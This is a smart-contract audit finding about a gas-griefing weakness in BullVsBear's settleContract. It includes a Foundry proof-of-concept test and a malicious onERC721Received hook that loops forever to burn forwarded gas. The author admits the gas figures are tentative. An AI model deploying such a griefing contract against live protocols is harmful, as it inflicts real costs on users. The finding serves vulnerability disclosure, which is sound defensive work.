 curiousapple

medium

# [Medium-1] Due to external call done before state updates, bulls can add extra gas overhead for bears to settle.

## Summary
Due to external calls done before state updates, bulls can add extra gas overhead for bears to settle.

## Vulnerability Detail
Bears can settle contracts through `settleContract()`, by doing the safe transfer of the NFT to the bull.
`BullVsBear` is protected against the vanilla denial of service by malicious bulls where they revert to the hook of `onERC721Received`, but clever bulls can still take advantage of this hook to make bears pay extra gas to settle. 

`settleContract` looks something like this
```solidity
function settleContract(Order calldata order, uint tokenId) public nonReentrant {
    bytes32 orderHash = hashOrder(order);

   ...............................
   ...............................

   ...............................
   ...............................

        // Try to transfer the NFT to the bull (needed in case of a malicious bull that block transfers)
        **try IERC721(order.collection).safeTransferFrom(bear, bull, tokenId) {}
        catch (bytes memory) {
            // Transfer NFT to BvbProtocol
            IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
            // Store that the bull has to retrieve it
            withdrawableCollectionTokenId[order.collection][tokenId] = bull;
        }**

        uint bearAssetAmount = order.premium + order.collateral;
        if (bearAssetAmount > 0) {
            // Transfer payment tokens to the Bear
            IERC20(order.asset).safeTransfer(bear, bearAssetAmount);
        }

        settledContracts[contractId] = true;

        emit SettledContract(orderHash, tokenId, order);
    }
```
Our focus is on the try-catch block.
Try tries to do a `safeTrasnfer`, and if failed, it goes to catch.
Now please note from [EIP-150](https://eips.ethereum.org/EIPS/eip-150) a caller can actually only give to a callee, an amount of gas no greater than:

``gas available - (1/64* gas available)``

Hence if `63/64 * gas` is passed to `IERC721(order.collection).safeTransferFrom(bear, bull, tokenId)` and it reverts or goes out of gas
the remaining 1/64 should be able to execute the code from the catch block to settle.

```solidity
				
       catch (bytes memory) {
            // Transfer NFT to BvbProtocol
            IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
            // Store that the bull has to retrieve it
            withdrawableCollectionTokenId[order.collection][tokenId] = bull;
        }

        uint bearAssetAmount = order.premium + order.collateral;
        if (bearAssetAmount > 0) {
            // Transfer payment tokens to the Bear
            IERC20(order.asset).safeTransfer(bear, bearAssetAmount);
        }

        settledContracts[contractId] = true;

        emit SettledContract(orderHash, tokenId, order);
```
That is, if malicious bull implements an infinite loop inside `onERC721Received` hook and consumes a total of 63/64 gas passed, the remaining 1/64 should be enough to execute the above block.

Due to this, no matter what amount of gas cost is needed until the catch block, one must pass approximately `63 * (gas needed from the catch block)`.

As per my tests, the gas costs needed from the catch block are **107483**

**Verification**
```solidity
Inside Integration.t.sol
  function testMatchingAndContractSettlement(BvbProtocol.Order memory order) public {
        vm.assume(order.premium <= type(uint).max / 1000);
        vm.assume(order.collateral <= type(uint).max / 1000);
        // Build the order
        order.validity = block.timestamp + 1 hours;
        order.expiry = block.timestamp + 1 days;
        order.nonce = 10;
        order.fee = bvb.fee();
        order.maker = bear;
        order.asset = address(usdc);
        order.collection = address(doodles);
        order.isBull = false;

        bytes32 orderHash = bvb.hashOrder(order);

        // Sign the order
        bytes memory signature = signOrderHash(bearPrivateKey, orderHash);

        // Calculate fees
        uint owedFeesBull = (order.collateral * fee) / 1000;
        uint owedFeesBear = (order.premium * fee) / 1000;

        // Give Bull and Bear enough USDC
        deal(address(usdc), bull, order.collateral + owedFeesBull);
        deal(address(usdc), bear, order.premium + owedFeesBear);

        // Initial balances
        uint initialBalanceBull = usdc.balanceOf(bull);
        uint initialBalanceBear = usdc.balanceOf(bear);
        uint initialBalanceBvb = usdc.balanceOf(address(bvb));
        uint initialWithdrawableFees = bvb.withdrawableFees(address(usdc));

        // Approve Bvb to withdraw USDC from Bull and Bear
        vm.prank(bull);
        usdc.approve(address(bvb), type(uint).max);
        vm.prank(bear);
        usdc.approve(address(bvb), type(uint).max);

        // Taker (Bull) match with this order
        vm.prank(bull);
        bvb.matchOrder(order, signature);
        vm.prank(bull);
        bvb.transferPosition(orderHash, true, address(maliciousBull));

        // Give a NFT to the Bear + approve
        uint tokenId = 1234;
        doodles.mint(bear, tokenId);
        vm.prank(bear);
        doodles.setApprovalForAll(address(bvb), true);

        // Settle the contract
        vm.prank(bear);
        bvb.settleContract{gas: 3224490}(order, tokenId);
    }

Inside BvbMaliciousBull.sol
 
function onERC721Received(
        address,
        address,
        uint256,
        bytes calldata
 ) external virtual returns (bytes4) {
        while(true)
        {
            
        }
 }
 
Inherit GasHelpers from solmate  for BvbProtocol contract 
and add checkpoints like these inside settle contract 

        try IERC721(order.collection).safeTransferFrom(bear, bull, tokenId) {} // @audit gas 
        catch (bytes memory) {
            startMeasuringGas("safeTransferCase");
            // Transfer NFT to BvbProtocol
            IERC721(order.collection).safeTransferFrom(bear, address(this), tokenId);
            // Store that the bull has to retrieve it
            withdrawableCollectionTokenId[order.collection][tokenId] = bull;
        }

        uint bearAssetAmount = order.premium + order.collateral;
        if (bearAssetAmount > 0) {
            // Transfer payment tokens to the Bear
            IERC20(order.asset).safeTransfer(bear, bearAssetAmount);
        }

        settledContracts[contractId] = true;

        emit SettledContract(orderHash, tokenId, order);
        stopMeasuringGas();
```    
The output comes something like this 
![image](https://user-images.githubusercontent.com/46760063/202477112-3d3ba04f-9b9f-4ac7-9b34-a9c995463ceb.png)

Now if we consider ``63 * 107483`` its 6771429
If we consider the following market condition its 
Gas Price | ETH Price |  
-- | -- | --
40 GWEI | $ 2000 | $ 406.28574

This adds extra overhead for bears to settle the contract, which could be substantial depending on the gas market and the profit amount.

> Please note I thought of this issue in the last hour, so the numbers could be wrong, but I do think it's an issue.
> In the happy case of a settled contract, one only requires 87906 gas,
> In the case of malicious bull, if only 6371429 is passed, it reverts with out of gas, so we can consider this as a point on a range

```bvb.settleContract{gas: 6371429}(order, tokenId);```
![image](https://user-images.githubusercontent.com/46760063/202479444-083c154e-d1bb-4ff6-90cf-ce89691f706a.png)

## Impact: Medium
Adds extra overhead for bears to close the contract, which could be substantial depending on the gas market and the profit amount.

## Code Snippet
https://github.com/sherlock-audit/2022-11-bullvbear/blob/main/bvb-protocol/src/BvbProtocol.sol#L394

## Tool used

Manual Review

## Recommendation
Consider moving to try-catch block and thereby external calls to the end, making this attack less attractive.
Or better refractor to pull pattern instead of push, where bull needs to pull nft by themselves.